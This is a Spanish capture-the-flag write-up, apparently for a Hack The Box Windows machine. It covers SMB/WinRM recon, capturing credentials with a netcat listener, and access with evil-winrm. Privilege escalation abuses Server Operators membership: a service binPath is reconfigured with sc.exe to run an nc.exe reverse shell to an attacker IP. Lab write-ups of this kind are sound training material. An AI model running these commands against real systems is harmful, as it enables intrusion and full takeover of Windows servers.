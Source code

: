 ## Summary

Tags: #Windows #SMB #WinRM #ReverShell #Netcat #NetUser  

- IP -> 
- Ports -> TCP (53,80,88,135,139,389,445,5985), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80  -> HTTP microsoft IIS/10.0
    - 445 -> SMB
    - 5985 -> WinRM

## Recon
Windows IIS (10.0)

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

```bash
❯ nc -nlvp 389 
```
Nos ponemos a explorar la pagina web y encontramos que podiamos hacer que la pagina al momento de hacerle Update, esta apuntara a nuestra IP y asi con nc ver el contenido y nos devuelve un User y una Passwd

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ smbmap -H ❮IP❯ -u 'null'            # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## User
Ahora podemos usar el puerto 5985 para poder ingresar con WINRM
```bash
❯ evil-winrm -i ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯         # Nos podemos conectar ya al servicio de administracion remota de Windows
```
Una vez adentro buscamos la flag del usuario user.txt en Desktop

Ahora nos disponemos a probar comandos para ver como poder escalar privilegios en la maquina Windows
```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetInpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato 
	# SetLoadPrivilege = Para usar el recurso de Tarlogic

❯  whoami /all                               # Miramos todos los privilegios
```

```bash
❯ systeminfo                                 # Nos copiamos todo lo que nos salga con ese comando y usaremos un programa llamado '' para deterctar vulnerabilidades en un equipo Windows, todo desde nuestra maquina Linux con el archivo que hemos creado con ese informacion obtenida.
```

```bash
❯ net user <USER>                            # Nos da detalles de nuestro usuario y vemos a que grupos pertenecemos. 


# Server Operators = Es un grupo en el que podemos administrar controladores de dominio, loggearse a un servicio interactivo, asi como crear, borrar recursos compartidos en la red, iniciar, parar servicios, back up, restaurar archivos, formatear el disco duro de la computadora y apagarla. Si pertenecemos a este grupo podemos cargar a la maquina victima Netcat.exe.
```

Ahora buscamos en Google la parte de Server Operators para ver que significa y que podemos hacer.
Los miembros de **Server Operators** pueden administrar el domain controller. Pueden hacer las siguientes acciones, iniciar sesión en un servidor de forma interactiva, crear y eliminar recursos compartidos de red, iniciar y detener servicios, realizar copias de seguridad y restaurar archivos, formatear la unidad de disco duro de la computadora y apagar la computadora. Este grupo no puede ser renombrado, eliminado o removido.

Por lo que nos ponemos a utilizar Netcat para poder entrar 
Buscamos el archivo nc.exe en la maquina atacante para despues subirlo a la maquina victima en el directorio Temp, ya que en ese directorio hay permisos de lectura y escritura.

```bash
❯ upload /home/omar/Documet/HTB/nc.exe       # Subimos el archivo Netcat a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
```

Despues podemos crear una revershell y ver si podemos crear un servicio 
```bash
❯ sc.exe create reverse binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443” # Le decimos al equipo victima que cuando arranque el servicio queremos que ejecute el netcat y nos ejecute una revershell contra el nuestro equipo por el puerto 443. (create=creamos el servicio, reverse=nombre del servicio) 

# Si no nos deja, hacemos lo siguiente:
❯ Services                            # Para ver los servicios que estan corriendo en Windows y asi ver si podemos cambiarle el binPath a uno, esto dependiendo si nos encontramos en el grupo de 'Server Operators' y asi podernos montar una revershell con algun servicio con sc.exe
❯ sc.exe config VMTools binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443” # Colocaremos un servicio que nos deje cambiar su binPath, el servicio va despues de config. (Nos saldra success)
```

## Root

```bash
❯ nc -nlvp 443 
```

Despues paramos el servicio que hemos reconfigurado y lo volvemos a iniciar para que se ejecute el netcat.
```bash
❯ sc.exe stop VMTools              # Paramos el servicio
❯ sc.exe start VMTools             # Iniciamos el servicio
```

Nos damos cuenta que ya somo **NT Autority System** y tenemos los privilegios de administrador, por lo que nos dirigimos a buscar la flag roo.txt


